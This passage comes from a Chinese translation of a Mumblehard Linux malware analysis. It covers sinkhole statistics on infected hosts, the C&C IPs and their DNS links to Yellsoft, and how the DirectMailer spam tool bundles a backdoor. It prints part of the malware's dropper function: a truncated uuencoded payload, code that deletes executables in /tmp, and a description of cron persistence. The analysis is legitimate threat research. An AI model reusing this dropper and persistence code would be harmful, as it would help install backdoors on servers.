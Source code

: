 目前还不知道将其添加到反垃圾邮件签名是否有效果，不过我们认为是有的。

0x02 被感染主机的统计
=============

* * *

其中恶意服务器支持的C＆C域名其中一部分已经失效，所以我们购买了其中的域名来监控受到感染的服务器，我们使用了恶意软件中用到的特殊的user-agent来进行监控。

下面是我们收集的2014年9月19日到2015年4月22日的数据，大概存在8,867个ip进行连接，其中大部分是用于网站托管的服务器。

![enter image description here](http://drops.javaweb.org/uploads/images/ba9d6ddcc119a93ee18d203eaea484ded7c5e455.jpg)

(此处省略部分关于统计的细节)

0x03 WHO IS YELLSOFT?
=====================

* * *

样本中的C＆C服务器的ip范围位于 194.54.81.162 到194.54.81.164

```
194.54.81.162:53 Hardcoded DNS server in Mumblehard’s spammer
194.54.81.163:54321 Report from Mumblehard’s proxy is open
194.54.81.163:25 C&C server for Mumblehard’s spammer
194.54.81.164:25 C&C server for Mumblehard’s spammer

```

如果你检查下面的两个ip，你会发现他们都是194.54.81.165和194.54.81.166的名称服务器，其中yellsoft.net web服务器托管 在194.54.81.166，其中162到166的ip的ns和soa都是相同的，这可以表明，这5个ip都是托管在同一台服务器上。

```
$ dig +short -x 194.54.81 SOA | uniq -c 
1 ns1.rx-name.net. hostmaster.81.54.194.in-addr.arpa. 2015031209 28800 7200 604800 86400
$ for i in 2 3 4 5 6; do dig +short -x 194.54.81 SOA @194.54.81.16$i; done | uniq -c 
5 ns1.yellsoft.net. support.yellsoft.net. 2013051501 600 300 604800 600

```

那么Yellsoft是干嘛的，他们销售一种perl编写的批量邮件发送工具，叫DirectMailer。运行在UNIX系统上。

![enter image description here](http://drops.javaweb.org/uploads/images/582d6f93bf420865305efc5cfb44ba11cfe68622.jpg)

### 3.1 DirectMailer分析

* * *

其主页上告诉访客，他们不提供直接下载，下载地址被托管在narod.ru上，我们可以从上面得到副本。在2014年我们下载了一个叫 directmailer-retail.zip 的压缩包，之后ESET讲其识别为恶意软件后，该软件就不再被放置于softexp.narod.ru上。

zip包含一个dm.pl 文件，不过其为elf可执行文件，打包了各种perl脚本。在主程序启动之前，程序会调用一个bdrp的函数，该函数有一个uuencoded编码的blob，解码运行后会生成另一个ELF可执行文件，包含一个加壳后的perl脚本，它会被写入文件系统和cron 15分钟运行一次。很熟悉是不？

bdrp函数

```
sub bdrp {
  my $bdrp = <<'BDRPDATA';
  M?T5,1@$!`0D```````````(``P`!````3(`$""P``````````````#0`(``!
  M``````````"`!`@`@`0("1H``!X>```'`````!```(DE"9H$"+@-````,=M3
  ...
  M)S5I=6=\9&(Z-WQT>'-T?#,@/'YR<%-$`@=,1$A#1$P1"U$-7$I$1$!=#Q5+
  %%T491S$`
  BDRPDATA
  $bdrp = unpack( "u*", $bdrp );
    foreach my $bdrpp ( "/var/tmp", "/tmp" ) {
    # Delete all executable files in temporary directory
    # (delete existing Mumblehard installation)
    for (<$bdrpp/*>) { unlink $_ if ( -f $_ && ( -x $_ || -X $_ ) ); }
    # Create random file name
```